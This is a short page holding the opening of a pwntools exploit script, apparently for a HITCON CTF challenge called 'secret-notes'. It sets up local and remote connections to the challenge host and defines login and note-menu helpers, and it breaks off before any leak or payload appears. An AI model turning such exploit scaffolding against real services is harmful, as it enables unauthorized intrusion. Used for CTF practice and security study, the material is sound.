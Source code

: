 

# Exp

```python
from pwn import *

aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = None
elf = None
p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def conn(local=1):
    global p, libc, elf
    pc = './chal'
    libc = ELF('./libc.so.6')
    elf = ELF(pc)

    if local == 1:
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        p = process(pc,aslr=aslr)
    else:
        remote_addr = ['secret-notes.chal.hitconctf.com', 12387]
        #remote_addr = ['127.0.0.1', 12387]
        p = remote(remote_addr[0], remote_addr[1])

def login(user, psw):
    ru('action: ')
    sl("1")
    ru("username: ")
    sn(user)
    ru("password: ")
    sn(psw)

def add(title, key, content):
    ru("action: ")
    sl("1")
    ru("headers: ")
    payload = title + b":" + key + b":" + content + b'\n'
    sl(str(len(payload)))
    ru("note: ")
    sn(payload)

def show(idx):
    ru("action: ")
    sl("2")
    ru("id: ")
```